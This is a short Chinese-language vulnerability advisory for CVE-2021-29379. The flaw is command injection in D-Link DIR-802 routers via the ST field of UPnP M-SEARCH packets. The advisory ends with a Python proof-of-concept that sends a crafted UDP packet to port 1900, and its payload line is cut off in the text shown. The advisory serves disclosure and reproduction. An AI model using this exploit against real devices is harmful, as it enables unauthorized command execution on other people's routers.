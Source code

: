 # 

# D-Link DIR-802 命令注入漏洞 CVE-2021-29379

## 漏洞描述

DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29379
- https://cool-y.github.io/2021/03/02/DIR-802-OS-Command-Injection/

## 漏洞影响

```
DIR-802 hardware revision Ax before v1.00b05
```

## 漏洞复现

poc：

```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```


